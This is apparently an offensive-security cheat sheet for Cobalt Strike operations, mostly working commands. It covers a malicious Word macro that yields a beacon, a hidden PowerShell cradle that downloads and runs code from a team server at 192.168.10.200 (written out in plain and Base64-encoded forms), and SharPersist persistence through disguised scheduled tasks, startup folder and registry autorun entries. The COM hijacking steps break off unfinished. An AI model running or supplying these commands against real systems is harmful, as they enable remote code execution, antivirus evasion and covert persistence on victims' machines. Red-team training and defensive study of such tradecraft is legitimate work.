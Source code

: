 ### .macro for MS Word
1. Generate a macro for MS WORD **Attacks -> Packages -> MS Office Macro**
2. Copy & Paste the macro in the MS Word document (remeber to use **.doc** not the **.docx**
3. Disable Defender and Run it, you'll get the beacon 

### Persistence
#### Persistence for MS Windows via SharPersist - Mehtod schtask
1. First generate the **x64 powershell** payload by **Attacks -> Web by Delivery -> Scripted Web Del (S)**
2. The above will generate a **PS payload, hosted on the CS TeamServer and will be run in memory**
3. E.g. it will be something like
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.10.200:80/64bit'))"
```
3. To avoid issues, Base64 it as following:
```
Linux : echo -en 'IEX ((new-object net.webclient).downloadstring("http://192.168.10.200:80/64bit"))' | iconv -t UTF-16LE | base64 -w 0
PS : [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('IEX ((new-object net.webclient).downloadstring("http://192.168.10.200:80/64bit"))'))
```
4. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -n "AV-Definition-Update" -m add -o hourly`
5. `SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -n "SysMonLog" -m add -o logon`

#### Persistence for MS Windows via SharPersist - Mehtod startup folder
1. `execute-assembly SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwAC4AMgAwADAAOgA4ADAALwA2ADQAYgBpAHQAIgApACkA" -f "UserEnvSetup" -m add`
2. If above command goes well, it create a file **UserEnvSetup** inside the path **C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup**

#### Persistence for MS Windows via SharPersist - Mehtod registry autorun
1. Generate a revershell exe from CS e.g **artifactx64.exe**. 
2. Place this **artifactx64.exe** in that **C:\tools\malPayloads\artifactx64.exe** in Windows 10 OS. 
3. `execute-assembly SharPersist.exe -t reg -c "C:\tools\malPayloads\artifactx64.exe" -a "/q /n" -k "hkcurun" -v "someNameYouWant" -m add`

#### Persistence for MS Windows via SharPersist - COM Hijacking DLL
1. Open **procmon64.exe** from **sysinternals suite**. 
2. Apply filters **Operations ---> RegKeyOpen** and **Result ---> NAME NOT FOUND** and **PATH (ends with) ---> InprocServer32**. 
3. Next open some program, e.g. **MS Word or maybe Edge** etc. 
4. Get some random **CLSID**. 
5. Use **Powershell** that the entry does exist in **HKLM**, but not in **HKCU**.
6. Will show ---> `Get-Item -Path "HKLM:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InprocServer32"`
7. But will fail --> `Get-Item -Path "HKCU:Software\Classes\CLSID\{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}\InprocServer32"`
8. Create this CLSID `New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{9FC8E510-A27C-4B3B-B9A3-BF65F00256A8}"`